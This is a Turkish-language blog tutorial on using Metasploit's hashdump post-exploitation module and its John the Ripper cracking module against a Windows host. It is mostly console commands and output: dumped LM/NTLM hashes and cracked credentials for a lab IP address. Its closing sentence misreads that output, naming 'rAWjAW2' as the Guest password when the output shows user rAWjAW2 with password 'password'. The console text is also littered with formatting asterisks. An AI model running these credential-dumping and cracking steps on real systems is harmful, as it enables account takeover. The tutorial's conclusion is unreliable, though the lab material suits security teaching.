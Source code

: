 ```yaml
---
draft: false

title:  'MSF İçinde John The Ripper'
date: '2017-06-05T13:42:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'John The Ripper programı, karmaşık algoritmalı parolaları çözmek için kullanılan bir programdır. Bir takım kelime listelerini kullanarak hash olarak kaydedilmiş kodları çözmeye çalışır.' 
 
url:  /tr/msf-icinde-john-the-ripper/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## John the Ripper



John The Ripper programı, karmaşık algoritmalı parolaları çözmek için kullanılan bir programdır. Bir takım kelime listelerini kullanarak hash olarak kaydedilmiş kodları çözmeye çalışır.



Metasploit içerisinde de John The Ripper kullanabilirsiniz. Burada kullanılacak John the Ripper, basit algoritmalarla ilgilenir. Çok karmaşık ve ileri düzey hash kodları için Metasploit dışında çalışmanız gerektiğini belirtelim. Metasploit içindeki John the Ripper, sadece LM veya NTLM hash kodlarını çözmek için başlangıç düzeyinde işlem yapmanıza yarar. Bir örnekle görelim.



Öncelikle hedef bilgisayarda meterpreter oturum açtığımızı kabul ediyoruz. `session 1` olarak aktif halde olan oturum için `post/windows/gather/hashdump` modülünü aktif hale getirip hash bilgilerini alalım.


```bash
msf auxiliary**(**handler**)** **>** use post/windows/gather/hashdump
msf post**(**hashdump**)** **>** set session 1
session **=>** 1
 
msf post**(**hashdump**)** **>** run

**[*********]** Obtaining the boot key...
**[*********]** Calculating the hboot key using SYSKEY bffad2dcc991597aaa19f90e8bc4ee00...
**[*********]** Obtaining the user list and keys...
**[*********]** Decrypting user keys...
**[*********]** Dumping password hashes...


Administrator:500:cb5f77772e5178b77b9fbd79429286db:b78fe104983b5c754a27c1784544fda7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:810185b1c0dd86dd756d138f54162df8:7b8f23708aec7107bfdf0925dbb2fed7:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:8be4bbf2ad7bd7cec4e1cdddcd4b052e:::
rAWjAW:1003:aad3b435b51404eeaad3b435b51404ee:117a2f6059824c686e7a16a137768a20:::
rAWjAW2:1004:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::


**[*********]** Post module execution completed
```



Hash bilgilerini ekranda görebilirsiniz. Şimdi `auxiliary/analyze/jtr_crack_fast` modülünü kullanalım.


```bash
msf post**(**hashdump**)** **>** use auxiliary/analyze/jtr_crack_fast
msf auxiliary**(**jtr_crack_fast**)** **>** run

**[*********]** Seeded the password database with 8 words...

guesses: 3  time: 0:00:00:04 DONE **(**Sat Jul 16 19:59:04 2011**)**  c/s: 12951K  trying: WIZ1900 - ZZZ1900
Warning: passwords printed above might be partial and not be all those cracked
Use the "--show" option to display all of the cracked passwords reliably
**[*********]** Output: Loaded 7 password hashes with no different salts **(**LM DES **[**128/128 BS SSE2]**)**
**[*********]** Output: D                **(**cred_6:2**)**
**[*********]** Output: PASSWOR          **(**cred_6:1**)**
**[*********]** Output: GG               **(**cred_1:2**)**
Warning: mixed-case charset, but the current hash type is **case**-insensitive;
some candidate passwords may be unnecessarily tried more than once.
guesses: 1  time: 0:00:00:05 DONE **(**Sat Jul 16 19:59:10 2011)  c/s: 44256K  trying: **||**V**}** - **||**|**}**
Warning: passwords printed above might be partial and not be all those cracked
Use the "--show" option to display all of the cracked passwords reliably
**[*********]** Output: Loaded 7 password hashes with no different salts **(**LM DES **[**128/128 BS SSE2]**)**
**[*********]** Output: Remaining 4 password hashes with no different salts
**[*********]** Output: **(**cred_2**)**
guesses: 0  time: 0:00:00:00 DONE **(**Sat Jul 16 19:59:10 2011**)**  c/s: 6666K  trying: 89093 - 89092
**[*********]** Output: Loaded 7 password hashes with no different salts **(**LM DES **[**128/128 BS SSE2]**)**
**[*********]** Output: Remaining 3 password hashes with no different salts
guesses: 1  time: 0:00:00:11 DONE **(**Sat Jul 16 19:59:21 2011**)**  c/s: 29609K  trying: zwingli1900 - password1900
Use the "--show" option to display all of the cracked passwords reliably
**[*********]** Output: Loaded 6 password hashes with no different salts **(**NT MD4 **[**128/128 SSE2 + 32/32]**)**
**[*********]** Output: password         **(**cred_6**)**
guesses: 1  time: 0:00:00:05 DONE **(**Sat Jul 16 19:59:27 2011**)**  c/s: 64816K  trying: **||**|**}**
Use the "--show" option to display all of the cracked passwords reliably
**[*********]** Output: Loaded 6 password hashes with no different salts **(**NT MD4 **[**128/128 SSE2 + 32/32]**)**
**[*********]** Output: Remaining 5 password hashes with no different salts
**[*********]** Output: **(**cred_2**)**
guesses: 0  time: 0:00:00:00 DONE **(**Sat Jul 16 19:59:27 2011**)**  c/s: 7407K  trying: 89030 - 89092
**[*********]** Output: Loaded 6 password hashes with no different salts **(**NT MD4 **[**128/128 SSE2 + 32/32]**)**
**[*********]** Output: Remaining 4 password hashes with no different salts

**[**+] Cracked: Guest: **(**192.168.184.134:445**)**
**[**+] Cracked: rAWjAW2:password **(**192.168.184.134:445**)**
**[*********]** Auxiliary module execution completed
msf auxiliary**(**jtr_crack_fast**)** **>**
```



Görüldüğü gibi `192.168.184.134` IP adresinde `Guest` kullanıcısı için parola `rAWjAW2` olarak bulundu.
